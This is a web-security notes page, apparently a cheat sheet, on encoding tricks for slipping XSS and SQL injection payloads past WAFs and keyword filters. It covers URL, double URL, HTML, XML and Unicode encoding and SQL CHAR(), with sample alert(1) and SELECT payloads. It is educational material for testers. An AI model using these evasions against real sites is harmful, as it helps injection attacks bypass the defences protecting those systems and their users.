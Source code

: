 ```yaml
---
title: "General obfuscation"
weight: 1
---
```


> **Note**:  For Javascript obfuscation go on [Javascript & Obfuscation]({{< ref "web/web-security/javascript and obfuscation/index" >}}).

## URL encoding

Sometimes, WAFs may fail to properly URL decode your input during checks.

-> Encode the keywords, so `SELECT` becomes `%53%45%4C%45%43%54`.

### Double URL encoding

Since the WAF decodes the input only once, it may fail to detect the threat. If the back-end server double-decodes it, the payload will be injected successfully.

```sh
[...]/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```

### HTML encoding

In certain HTML locations, like element text or attribute values, browsers automatically decode these references when parsing.

Server-side checks for alert() may miss it if you HTML encode characters.

```html
<img src=x onerror="&#x61;lert(1)">
```

When the browser renders the page, it will decode and execute the injected payload.

**Leading zeros**

HTML encode `:` -> `&#58;` = `&#0000000000058;`

`<a href="javascript&#00000000000058;alert(1)">Click me</a>`

---

## XML encoding

XML supports character encoding with the same numeric escape sequences as HTML.

```xml
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

---

## Multiple encodings

```html
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```

(HTML) `&bsol;` -> `\`

```html
<a href="javascript:\u0061lert(1)">Click me</a>
```

(Unicode) `\u0061` -> `a`

```html
<a href="javascript:alert(1)">Click me</a>
```

---

## SQL CHAR() function

`CHAR(83)` = `CHAR(0x53)` = `S`

`SELECT` is blacklisted ->

```sql
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```
